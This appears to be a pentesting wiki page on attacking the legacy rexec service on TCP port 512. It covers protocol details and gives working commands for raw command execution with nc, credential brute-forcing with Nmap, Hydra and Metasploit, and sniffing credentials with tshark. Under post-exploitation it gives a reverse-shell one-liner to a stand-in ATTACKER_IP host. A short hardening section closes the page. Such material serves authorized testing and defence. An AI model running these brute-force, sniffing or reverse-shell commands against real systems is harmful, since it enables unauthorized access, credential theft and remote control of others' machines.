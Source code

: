 # 512 - Pentesting Rexec


## Basic Information

Rexec (remote **exec**) is one of the original Berkeley *r*-services suite (together with `rlogin`, `rsh`, …).  It provides a **remote command-execution** capability **authenticated only with a clear-text username and password**.  The protocol was defined in the early 1980’s (see RFC 1060) and is nowadays considered **insecure by design**.  Nevertheless it is still enabled by default in some legacy UNIX / network-attached equipment and occasionally shows up during internal pentests.

**Default Port:** TCP 512 (`exec`)

```
PORT    STATE SERVICE
512/tcp open  exec
```
```
> 🔥  All traffic – including credentials – is transmitted **unencrypted**.  Anyone with the ability to sniff the network can recover the username, password and command.

### Protocol quick-look

1. Client connects to TCP 512.
2. Client sends three **NUL-terminated** strings:
   * the port number (as ASCII) where it wishes to receive stdout/stderr (often `0`),
   * the **username**,
   * the **password**.
3. A final NUL-terminated string with the **command** to execute is sent.
4. The server replies with a single 8-bit status byte (0 = success, `1` = failure) followed by the command output.

That means you can reproduce the exchange with nothing more than `echo -e` and `nc`:

```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
```
If the credentials are valid you will receive the output of `id` straight back on the same connection.

### Manual usage with the client

Many Linux distributions still ship the legacy client inside the **inetutils-rexec** / **rsh-client** package:

```bash
rexec -l user -p password <target> "uname -a"
```
```
If `-p` is omitted the client will prompt interactively for the password (visible on the wire in clear-text!).

---
## Enumeration & Brute-forcing

### [[../generic-hacking/brute-force.md#rexec|**Brute-force**]]

### Nmap

```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
```The `rexec-brute` NSE uses the protocol described above to try credentials very quickly .

### Hydra / Medusa / Ncrack

```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
````hydra` has a dedicated **rexec** module and remains the fastest offline bruteforcer .  `medusa` (`-M REXEC`) and `ncrack` (`rexec` module) can be used in the same way.

### Metasploit

```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
```The module will spawn a shell on success and store the credentials in the database .

---
## Sniffing credentials

Because everything is clear-text, **network captures are priceless**.  With a copy of the traffic you can extract creds without touching the target:

```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
  awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
```
(In Wireshark enable *Decode As …​* TCP 512 → REXEC to view nicely-parsed fields.)

---
## Post-Exploitation tips

* Commands run with the privileges of the supplied user.  If `/etc/pam.d/rexec` is mis-configured (e.g. `pam_rootok`), root shells are sometimes possible.
* Rexec ignores the user’s shell and executes the command via `/bin/sh -c <cmd>`.  You can therefore use typical shell-escape tricks (`;`, ``$( )``, backticks) to chain multiple commands or spawn reverse shells:
  ```bash
  rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
  ```
* Passwords are often stored in **~/.netrc** on other systems; if you compromise one host you may reuse them for lateral movement.

---
## Hardening / Detection

* **Do not expose rexec**; replace it with SSH.  Virtually all modern *inetd* superservers comment the service out by default.
* If you must keep it, restrict access with TCP wrappers (`/etc/hosts.allow`) or firewall rules and enforce strong per-account passwords.
* Monitor for traffic to :512 and for `rexecd` process launches.  A single packet capture is enough to detect a compromise.
* Disable `rexec`, `rlogin`, `rsh` together – they share most of the same codebase and weaknesses.

---

## References

* Nmap NSE `rexec-brute` documentation – [[https://nmap.org/nsedoc/scripts/rexec-brute.html|https://nmap.org/nsedoc/scripts/rexec-brute.html]]
* Rapid7 Metasploit module `auxiliary/scanner/rservices/rexec_login` – [[https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login|https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login]]

